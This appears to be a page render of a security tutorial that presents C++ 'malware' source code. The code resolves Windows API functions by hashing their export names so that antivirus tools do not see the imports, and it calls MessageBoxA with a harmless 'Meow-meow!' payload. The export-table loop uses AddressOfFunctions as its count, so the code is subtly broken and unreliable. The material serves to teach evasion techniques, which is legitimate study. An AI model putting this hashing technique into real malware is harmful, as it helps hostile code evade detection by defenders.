 Kötü amaçlı yazılımın tam kaynak kodu:    

```cpp
/*
 * hack.cpp - hashing Win32API functions. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/22/simple-malware-av-evasion-5.html
*/
#include <windows.h>
#include <stdio.h>

typedef UINT(CALLBACK* fnMessageBoxA)(
  HWND   hWnd,
  LPCSTR lpText,
  LPCSTR lpCaption,
  UINT   uType
);

DWORD calcMyHash(char* data) {
  DWORD hash = 0x35;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}

static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)(
  (LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + img_nt_header->
    OptionalHeader.
    DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].
    VirtualAddress);
  PDWORD fAddr = (PDWORD)((LPBYTE)h + 
  img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)((LPBYTE)h + 
  img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)((LPBYTE)h + 
  img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
      printf("successfully found! %s - %d\n", 
      pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}

int main() {
  HMODULE mod = LoadLibrary("user32.dll");
  LPVOID addr = getAPIAddr(mod, 17036696);
  printf("0x%p\n", addr);
  fnMessageBoxA myMessageBoxA = (fnMessageBoxA)addr;
  myMessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}

```